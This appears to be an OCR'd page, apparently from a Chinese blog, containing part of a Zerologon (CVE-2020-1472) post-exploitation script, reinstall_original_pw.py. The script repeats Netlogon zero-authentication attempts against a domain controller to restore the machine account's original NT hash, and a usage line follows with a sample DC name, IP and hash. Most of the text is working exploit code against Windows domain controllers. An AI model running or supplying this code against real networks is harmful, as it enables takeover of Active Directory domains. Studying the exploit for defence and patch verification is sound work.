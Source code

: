 ```
      resp = rpc_con.request(request)
      resp.dump()

      #request['PrimaryName'] = NULL
      #request['ComputerName'] = target_computer + '\x00'
      #request['OpaqueBuffer'] = b'HOLABETOCOMOANDAS\x00'
      #request['OpaqueBufferSize'] = len(b'HOLABETOCOMOANDAS\x00')
      #resp = rpc_con.request(request)
      #resp.dump()      
    except Exception as e:
      print(e)
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    #print(ex)
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer, originalpw):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer, originalpw)

    if rpc_con == None:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC machine account should be restored to it\'s original value. You might want to secretsdump again to check.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (4 <= len(sys.argv) <= 5):
    print('Usage: reinstall_original_pw.py <dc-name> <dc-ip> <hexlified original nthash>\n')
    print('Reinstalls a particular machine hash for the machine account on the target DC. Assumes the machine password has previously been reset to the empty string')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip, originalpw] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name, originalpw)
```  
- 用法  
```
python reinstall_original_pw.py AD-server2016 10.10.1.228 938153924a529edd8001908762f26a65
```  
  